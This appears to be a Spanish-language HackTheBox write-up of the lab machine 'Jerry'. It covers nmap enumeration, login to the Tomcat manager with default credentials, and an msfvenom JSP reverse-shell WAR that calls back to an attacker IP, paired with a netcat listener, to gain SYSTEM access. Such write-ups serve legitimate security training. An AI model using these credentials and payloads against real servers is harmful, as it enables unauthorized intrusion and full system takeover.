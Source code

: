 ```yaml
---
layout: post
title: HTB_Jerry
date: 2023/07/10
slug: HTB_Jerry
heroImage: /assets/machines.jpg
---
```


# Jerry {-}

## Introduccion {-}

La maquina del dia se llama Jerry.

El replay del live se puede ver aqui

[![S4vitaar Sauna maquina](https://img.youtube.com/vi/GFED7XNYmXI/0.jpg)](https://www.youtube.com/watch?v=GFED7XNYmXI)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.95
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.95
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p8080 10.10.10.95 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 8080   | http     | Web Fuzzing        |            |


### Analyzando la web {-}


#### Http Enum {-}

```bash
nmap --script http-enub -p8080 10.10.10.95 -oN webScan
```



## Vulnerability Assessment {-}

#### Checkear la web {-}

Vemos la pagina por defecto de Tomcat. Vamos en la url 
```bash
 http://10.10.10.95:8080/manager/html 
```
, Intentamos credenciales por defecto:

- admin:admin
- tomcat:tomcat
- tomcat:s3cret

Ya hemos ganado acceso al panel de manager.
## Vuln exploit & Gaining Access {-}

### War malicioso para tomcat {-}

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f war -o shell.war
```

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Subimos el war a la web de manager y ya ganamos accesso a la maquina victima. A demas ya estamos como 
```bash
 nt authority\system 
```

